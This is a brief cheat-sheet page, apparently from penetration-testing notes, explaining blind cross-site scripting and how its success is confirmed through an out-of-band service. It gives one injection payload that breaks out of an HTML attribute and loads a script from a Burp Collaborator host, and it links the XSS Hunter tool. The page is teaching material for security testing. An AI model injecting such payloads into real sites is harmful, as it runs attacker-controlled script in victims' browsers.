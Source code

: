 # Blind Cross-Site Scripting

Blind cross-site scripting (XSS) attacks occur when an attacker is unable to directly see the results of their XSS payload on the targeted website, but can still confirm if the payload has executed successfully or not by observing the behavior of a third-party service, such as Burp Suite's Collaborator.

#### Basic \<script> Payload:

```bash
"><script src="https://burpcollaborator.com"></script>
```

### References

{% embed url="https://github.com/mandatoryprogrammer/xsshunter-express" %}
